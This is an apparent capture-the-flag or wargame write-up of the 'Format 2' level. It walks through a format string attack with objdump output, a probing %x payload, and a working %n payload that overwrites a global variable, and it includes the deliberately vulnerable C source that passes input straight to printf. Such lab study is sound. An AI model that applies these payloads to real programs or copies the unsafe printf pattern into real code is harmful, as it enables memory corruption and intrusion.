 
\begin{center}\begin{LARGE}Format 2\end{LARGE}\end{center}
 
\subsection*{Problem}

\begin{lstlisting}[language=bash]
objdump -t format2 | grep target
>>>080496e4 g     O .bss   00000004              target
\end{lstlisting}

Again, we find the location of our target. We know from the source code that the
program now takes in an input into the buffer and prints it. We so the same
as before by first printing a sequence of character and try to identify where
the pointer resides on the stack. We then make use of string format to do the attack.

\subsection*{Idea and Attack process}

We first try to locate our variable first. This time we quickly find the target,
that is 2 positions below our injected string.

\begin{lstlisting}[language=bash]
python -c "print 'AAAA' + '%x.'*10" | ./format2
>>>AAAA200.b7fd8420.bffffb14.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.
\end{lstlisting}

We now want to write to the target value. We try different values to write to the
address and we eventually find that the combination below leads to the target
variable being modified.

\begin{lstlisting}[language=bash]
 python -c "print '\xe4\x96\x04\x08' + '%x.'*2 + '%47d' +'%n'" | ./format2
200.b7fd8420.                                    -1073743084
you have modified the target :)
\end{lstlisting}

\subsection*{Source code}

\begin{lstlisting}[language=c]
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
    char buffer[512];

    fgets(buffer, sizeof(buffer), stdin);
    printf(buffer);
    
    if(target == 64) {
        printf("you have modified the target :)\n");
    } else {
        printf("target is %d :(\n", target);
    }
}

int main(int argc, char **argv)
{
    vuln();
}
\end{lstlisting}
